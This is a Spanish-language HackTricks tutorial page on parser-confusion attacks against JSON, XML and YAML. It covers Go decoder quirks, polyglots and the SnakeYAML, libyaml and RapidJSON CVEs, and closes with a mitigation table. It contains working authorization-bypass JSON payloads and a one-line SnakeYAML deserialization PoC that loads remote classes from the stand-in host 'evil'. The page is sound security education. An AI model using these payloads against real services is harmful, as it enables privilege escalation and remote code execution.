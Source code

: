 # JSON, XML & Yaml Hacking & Problemas

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

Se detectaron los siguientes problemas en el JSON de Go aunque también podrían estar presentes en otros lenguajes. Estos problemas fueron publicados en [**this blog post**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Los parsers JSON, XML y YAML de Go tienen una larga serie de inconsistencias y valores predeterminados inseguros que pueden ser abusados para **omitir la autenticación**, **escalar privilegios** o **exfiltrar datos sensibles**.


### (Un)Marshaling de datos inesperados

El objetivo es explotar structs que permiten a un atacante leer/escribir campos sensibles (p.ej., `IsAdmin`, `Password`).

- Example Struct:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Vulnerabilidades comunes

1. **Missing tag** (sin etiqueta = el campo sigue siendo analizado por defecto):
```go
type User struct {
Username string
}
```
Payload:
```json
{"Username": "admin"}
```
2. **Uso incorrecto de `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Payload:
```json
{"-": true}
```
✔️ Forma correcta de evitar que un campo sea (des)serializado:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Diferencias entre parsers

El objetivo es eludir la autorización explotando cómo diferentes parsers interpretan el mismo payload de forma distinta, como en:
- CVE-2017-12635: Apache CouchDB elusión mediante claves duplicadas
- 2022: Zoom 0-click RCE mediante inconsistencia del parser XML
- GitLab 2025: elusión de SAML mediante peculiaridades de XML


**1. Campos duplicados:**
El `encoding/json` de Go toma el **último** campo.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Otros parsers (p. ej., Java’s Jackson) pueden tomar el **primero**.

**2. Insensibilidad a mayúsculas/minúsculas:**
Go es insensible a mayúsculas/minúsculas:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Incluso los trucos de Unicode funcionan:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Cross-service mismatch:**
Imagina:
- Proxy escrito en Go
- servicio AuthZ escrito en Python

Attacker envía:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python ve `UserAction`, lo permite
- Go ve `AdminAction`, lo ejecuta


### Confusión de formatos de datos (Polyglots)

El objetivo es explotar sistemas que mezclan formatos (JSON/XML/YAML) o que fallan abiertos ante errores del parser como:
- **CVE-2020-16250**: HashiCorp Vault analizó JSON con un parser XML después de que STS devolviera JSON en lugar de XML.

El atacante controla:
- La cabecera `Accept: application/json`
- Control parcial del cuerpo JSON

El parser XML de Go lo analizó **de todos modos** y confió en la identidad inyectada.

- Payload creado:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
Resultado:
- **Go JSON** parser: `Action_2` (insensible a mayúsculas + el último prevalece)
- **YAML** parser: `Action_1` (distingue entre mayúsculas y minúsculas)
- **XML** parser: analiza `"Action_3"` dentro de la cadena

---

## Vulnerabilidades notables de parsers (2023-2025)

> Los siguientes problemas explotables públicamente muestran que el parsing inseguro es un problema multilenguaje — no solo un problema de Go.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Afecta a: `org.yaml:snakeyaml` < **2.0** (usado por Spring-Boot, Jenkins, etc.).
* Causa raíz: `new Constructor()` deserializa **clases Java arbitrarias**, lo que permite cadenas de gadgets que culminan en ejecución remota de código.
* PoC de una línea (abrirá la calculadora en el host vulnerable):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Solución / Mitigación:
1. **Actualizar a ≥2.0** (usa `SafeLoader` por defecto).
2. En versiones antiguas, use explícitamente `new Yaml(new SafeConstructor())`.

### libyaml Double-Free (CVE-2024-35325)

* Afecta a: `libyaml` ≤0.2.5 (biblioteca C utilizada por muchos bindings de lenguaje).
* Problema: Llamar a `yaml_event_delete()` dos veces provoca un double-free que los atacantes pueden convertir en DoS o, en algunos escenarios, en explotación del heap.
* Estado: El upstream lo rechazó como “API misuse”, pero las distribuciones Linux enviaron **0.2.6** parcheada que libera el puntero a null de forma defensiva.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Afecta a: Tencent **RapidJSON** antes del commit `8269bc2` (<1.1.0-patch-22).
* Bug: En `GenericReader::ParseNumber()` aritmética sin comprobación permite a los atacantes crear literales numéricos enormes que se desbordan y corrompen el heap — en última instancia permitiendo escalada de privilegios cuando el grafo de objetos resultante se usa para decisiones de autorización.

---

### 🔐 Mitigaciones (Actualizado)

| Riesgo                              | Solución / Recomendación                                  |
|-------------------------------------|------------------------------------------------------------|
| Campos desconocidos (JSON)          | `decoder.DisallowUnknownFields()`                          |
| Campos duplicados (JSON)            | ❌ Sin solución en la stdlib — validar con [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Coincidencia insensible a mayúsculas (Go) | ❌ Sin solución — validar struct tags + pre-canonicalizar la entrada |
| Datos basura XML / XXE              | Usar un parser reforzado (`encoding/xml` + `DisallowDTD`)  |
| Claves desconocidas en YAML         | `yaml.KnownFields(true)`                                   |
| **Deserialización insegura de YAML** | Usar SafeConstructor / actualizar a SnakeYAML ≥2.0         |
| libyaml ≤0.2.5 double-free          | Actualizar a **0.2.6** o a una release parcheada por la distro |
| RapidJSON <patched commit           | Compilar contra la última versión de RapidJSON (≥ julio de 2024) |

## See also

{{#ref}}
mass-assignment-cwe-915.md
{{#endref}}

## References

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
